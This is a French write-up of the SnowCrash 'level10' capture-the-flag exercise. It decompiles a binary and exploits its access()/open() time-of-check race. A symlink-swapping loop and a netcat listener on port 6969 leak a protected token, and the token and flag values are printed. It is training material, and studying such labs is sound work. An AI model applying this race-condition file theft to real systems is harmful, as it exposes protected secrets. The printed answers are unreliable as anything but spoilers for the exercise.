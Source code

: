 Il y a deux fichiers, un binaire et un fichier token le token est en rw.
En éxécutant le binaire on recoit un message d'erreur.

```bash 
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```
on extrait le binaire avec `scp` et on le décompile avec `ghidra` pour voir le code source.
```bash
scp -P 4242 level10@127.0.0.1:/home/user/level10/level10 .
```

```bash
void main(int param_1,undefined4 *param_2)
{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)param_2[1];
  __cp = (char *)param_2[2];
  iVar2 = access((char *)param_2[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write ( iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
On voit que le binaire se connecte à une socket sur le port `6969` et envoie le contenu du fichier passé en argument.

Dans le code nous voyons aussi que le binaire essaye d'accéder au fichier passé en argument avec la fonction `access` et si l'accès est refusé il affiche un message d'erreur. puis il essaye d'ouvrir le fichier avec la fonction `open` et si l'ouverture est refusée il affiche un message d'erreur.

nous decidons donc d'utiliser cette faille en envoyant un lien symbolique vers le fichier `token` qui est en `rw` pour le user `level10`.

lorsque nous souhaitons voir si nous sommes connecter au port 6969 nous recevons le message suivant :
```bash
level10@SnowCrash:~$ telnet 6969
Trying 0.0.27.57...
telnet: Unable to connect to remote host: Invalid argument
```
nous decidons de nous connecter au port `6969` avec `nc`

```bash
level10@SnowCrash:~$ nc -l 6969
```

nous ouvrons un autre terminal et nous créons un lien symbolique vers le fichier `token` dans le répertoire `/tmp` et nous le nommons `level11`.

```bash
while true; do ln -fs /home/user/level10/level10 /tmp/level11tmp; ln -sf /home/user/level10/token /tmp/level11tmp; done
```
nous ouvrons un autre terminal et nous lançons le binaire `level10` avec le lien symbolique `level11`.

```bash
while true; do ./level10 /tmp/level11tmp 10.0.2.15; done
```
Sur le terminal ou nous avons lancé `nc` nous voyons le contenu du fichier `token` s'afficher.

```bash
level10@SnowCrash:~$ nc -l 6969

.*( )*.
woupa2yuojeeaaed06riuj63c
```
nous nous connectons au user `flag10` et nous faisons le `getflag`.

```bash
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

